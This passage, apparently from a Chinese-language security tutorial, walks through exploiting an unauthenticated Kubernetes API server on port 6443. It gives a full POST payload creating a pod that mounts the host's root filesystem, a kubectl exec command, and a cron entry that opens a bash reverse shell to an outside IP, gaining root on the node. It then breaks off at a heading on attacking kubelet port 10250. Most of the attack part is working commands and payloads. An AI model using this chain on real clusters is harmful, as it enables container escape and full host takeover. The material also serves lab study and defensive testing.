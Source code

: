   
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9YPWkp2u8lmiasnyQ3ibVia1nqrzicKrzMOAdcUoRqtYibFa6ujUDibphJmiag/640?wx_fmt=png&from=appmsg "")  
  
然后再访问：6443端口，即可出现未授权访问  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9neDOP23YL3urkZRTb79DH4LIA6iaXHUS4EPX68R3NgPFLo147zEJoSg/640?wx_fmt=png&from=appmsg "")  
#### 漏洞利用  
  
创建Pod  
  
可以使用一些发包工具构造数据包发包，可以使用burp，或者Postman之类的工具。  
  
这里演示使用Postman发包  
```
https://192.168.139.130:6443/api/v1/namespaces/default/pods/
POST：
{"apiVersion":"v1","kind":"Pod","metadata":{"annotations":{"kubectl.kubernetes.io/last-applied-configuration":"{\"apiVersion\":\"v1\",\"kind\":\"Pod\",\"metadata\":{\"annotations\":{},\"name\":\"test02\",\"namespace\":\"default\"},\"spec\":{\"containers\":[{\"image\":\"nginx:1.14.2\",\"name\":\"test02\",\"volumeMounts\":[{\"mountPath\":\"/host\",\"name\":\"host\"}]}],\"volumes\":[{\"hostPath\":{\"path\":\"/\",\"type\":\"Directory\"},\"name\":\"host\"}]}}\n"},"name":"test02","namespace":"default"},"spec":{"containers":[{"image":"nginx:1.14.2","name":"test02","volumeMounts":[{"mountPath":"/host","name":"host"}]}],"volumes":[{"hostPath":{"path":"/","type":"Directory"},"name":"host"}]}}
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9ibapYN0HPXUia4Lyx7KWFI3LPly3ia1mf9icnN2L4frnXc8ETxIPcxDurg/640?wx_fmt=png&from=appmsg "")  
  
  
返回201 创建成功，使用kubectl查看pods, 这里执行命令需要输入账号密码，随便输入即可  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J95ENicdCfuuZnsmVcnkBicgY0Bpb7Zy17libOm4UM6QuUxTSmonWYHfxBQ/640?wx_fmt=png&from=appmsg "")  
  
  
执行Pods，这里执行命令需要输入账号密码，随便输入即可  
```
kubectl --insecure-skip-tls-verify -s https://192.168.19.58:6443 --namespace=default exec -it test02 bash
```  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9yPew5J2mRdfCGfiaBw6icDzJbEvh2XV15bHcj8ib1bgJuImgzTzIicE8yg/640?wx_fmt=png&from=appmsg "")  
  
  
执行定时任务，反弹shell (此时挂载目录和之前不一样，所以反弹命令有些区别)  
```
echo -e "* * * * * root bash -i >& /dev/tcp/192.168.19.132/4444 0>&1\n" >> /host/etc/crontab
```  
  
  
等一两分钟后直接拿到node1节点的权限  
  
![](https://mmbiz.qpic.cn/mmbiz_png/apNprpz3YS6hjJIvTRJUeQyyPgdtO6J9CCZrG1iarZUkcpZwibwHvESoVzmNxaaUxibvOasSqMzanjAQ1aCtqHfaQ/640?wx_fmt=png&from=appmsg "")  
### 4.1.3 攻击10250端口，kubelet未授权访问 （node节点）  
  
正常访问node节点10250端口pods，如图所示，不存在未授权访问  
  